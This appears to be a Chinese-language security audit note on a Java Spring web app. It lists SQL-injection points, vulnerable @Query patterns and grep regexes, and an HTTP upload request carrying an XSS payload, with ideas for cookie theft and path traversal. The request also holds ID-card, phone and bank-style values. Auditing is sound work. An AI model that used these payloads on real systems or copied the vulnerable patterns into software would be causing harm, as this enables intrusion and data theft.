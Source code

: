 ## 黑盒测试

## 白盒测试

### 审计SPLE表达式

* 搜索`#{""}`没有找到相关用法
* 搜索`ExpressionParser` `SpelExpressionParser` 没有找到相关类 
* 版本非漏洞版本

### 审计SQL注入

* address-mapper.xml id="allDirector" 布尔注入 延时注入
* notice-mapper.xml id="sortMyNotice" 布尔 延时

#### @Query不进行预处理`:#{#sortId} `

```java
import org.springframework.data.jpa.repository.Query;
import org.springframework.data.repository.query.Param;
import org.springframework.data.repository.CrudRepository;
import org.springframework.stereotype.Repository;

@Repository
public interface MenuRepository extends CrudRepository<SystemMenu, Long> {
    
    @Query("update SystemMenu menu set menu.sortId = :#{#sortId} where menu.parentId = :parentId and menu.sortId = (:sortId - :arithNum)")
    int changeSortId(@Param("sortId") String sortId, @Param("arithNum") Integer arithNum, @Param("parentId") Long parentId);
}
```

* 暂无注入点

#### @Query不进行预处理@Query(nativeQuery = true

```java
import org.springframework.data.jpa.repository.Query;
import org.springframework.data.repository.query.Param;
import org.springframework.data.repository.CrudRepository;
import org.springframework.stereotype.Repository;

@Repository
public interface UserRepository extends CrudRepository<User, Long> {

    @Query(nativeQuery = true, value = "SELECT * FROM user WHERE username = :username")
    User findByUsername(@Param("username") String username);
}

```

* 暂无

#### @Query不进行预处理参数值为字段名(这种写发放是否存在有疑问)

```java
import org.springframework.data.jpa.repository.Query;
import org.springframework.data.repository.query.Param;
import org.springframework.data.repository.CrudRepository;
import org.springframework.stereotype.Repository;

@Repository
public interface UserRepository extends CrudRepository<User, Long> {

    @Query("SELECT u FROM User u WHERE u.:fieldName = :fieldValue")
    User findByField(@Param("fieldName") String fieldName, @Param("fieldValue") String fieldValue);
}

```

* `@Query\(.*?order by\s+[^a-z]`
* `@Query\(.*?[:?]\w*[)'"]*=`
* `@Query\(.*?[\s('"]in[\s('"]`
* `@Query\(.*?[\s('"]like[\s('"]`

#### 动态拼接sql语句

```java
import org.springframework.data.jpa.repository.Query;
import org.springframework.data.repository.query.Param;
import org.springframework.data.repository.CrudRepository;
import org.springframework.stereotype.Repository;

@Repository
public interface UserRepository extends CrudRepository<User, Long> {

    @Query("SELECT u FROM User u WHERE u.username = :username" + 
           " AND u.role = '" + Role.ADMIN + "'")
    List<User> findAdminUsers(@Param("username") String username);
}
```

* 暂无

### 审计错误的异常抛出

#### e.printStackTrace

* 排查后,发现异常在控制台输出而非前端页面,这个可能和配置有关,需要后续研究总结

### 任意文件上传

#### 用户头像处文件上传

* 限制：上传路径不可控、文件名不可控
* 利用：文件类型可控，可获取文件在web服务器上的相对路径，可以访问，可以上传html实现挂黑页、钓鱼、打cookie等操作，低危

* 报文：

```http
POST /saveuser HTTP/1.1
Host: 192.168.110.147
Content-Length: 1879
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.110.147
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMCI8ln7TqBmoMCRQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.110.147/userpanel
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=F5C48FB26323C735A6DF743CFA9E0B95
Connection: close

------WebKitFormBoundaryMCI8ln7TqBmoMCRQ
Content-Disposition: form-data; name="userName"

admin
------WebKitFormBoundaryMCI8ln7TqBmoMCRQ
Content-Disposition: form-data; name="userTel"

13272143450
------WebKitFormBoundaryMCI8ln7TqBmoMCRQ
Content-Disposition: form-data; name="realName"

lyh-god神
------WebKitFormBoundaryMCI8ln7TqBmoMCRQ
Content-Disposition: form-data; name="eamil"

923219711@qq.com
------WebKitFormBoundaryMCI8ln7TqBmoMCRQ
Content-Disposition: form-data; name="address"

湖南工业大学
------WebKitFormBoundaryMCI8ln7TqBmoMCRQ
Content-Disposition: form-data; name="userEdu"

本科
------WebKitFormBoundaryMCI8ln7TqBmoMCRQ
Content-Disposition: form-data; name="school"

湖南工业大学
------WebKitFormBoundaryMCI8ln7TqBmoMCRQ
Content-Disposition: form-data; name="idCard"

510322198602030429
------WebKitFormBoundaryMCI8ln7TqBmoMCRQ
Content-Disposition: form-data; name="bank"

62175555555555444
------WebKitFormBoundaryMCI8ln7TqBmoMCRQ
Content-Disposition: form-data; name="sex"

男
------WebKitFormBoundaryMCI8ln7TqBmoMCRQ
Content-Disposition: form-data; name="themeSkin"

blue
------WebKitFormBoundaryMCI8ln7TqBmoMCRQ
Content-Disposition: form-data; name="birth"

1986-02-03
------WebKitFormBoundaryMCI8ln7TqBmoMCRQ
Content-Disposition: form-data; name="userSign"

好好
------WebKitFormBoundaryMCI8ln7TqBmoMCRQ
Content-Disposition: form-data; name="password1"


------WebKitFormBoundaryMCI8ln7TqBmoMCRQ
Content-Disposition: form-data; name="password"


------WebKitFormBoundaryMCI8ln7TqBmoMCRQ
Content-Disposition: form-data; name="filePath"; filename="xss.js"
Content-Type: text/javascript

<script>alert('xss')</script>
------WebKitFormBoundaryMCI8ln7TqBmoMCRQ
Content-Disposition: form-data; name="ctl00$cphMain$btnSave"

保存
------WebKitFormBoundaryMCI8ln7TqBmoMCRQ--

```

* 代码：UserpanelController.java @RequestMapping("saveuser")...String imgpath=nservice.upload(filePath)...  NotepaperService.upload

#### 文件管理处配合畸形用户名实现任意文件上传+目录穿越

* 限制：需要畸形用户名，文件名不可控

* 利用分析：在可以任意更改用户名的情况下

  * 通过达到数据库长度限制造成截取，完成任意文件读取、删除，再借助复制、剪切功能实现任意文件覆盖、写入    无法实现覆盖、写入操作，因为没有实际移动文件（仅在数据库中修改了path id）；数据库截取失败
  * 直接上传可以利用的点
    * 上传html  暂未发现可以在前端页面找到上传文件的文件名
    * 上传mapper.xml。这里不可行，但是是一个思路，如果开启自动扫描mapper.xml，且对应的接口中有方法不是在mapper.xml中实现的，可以通过再上传.xml文件进行sql语句的注册或覆盖，创造一个sql注入漏洞出来（但是这又涉及到项目在什么时候会扫描mapper.xml的情况）
    * 上传mybatis配置文件    不可行，要么采取默认名，要么在代码中指定名，但是都做不到

  
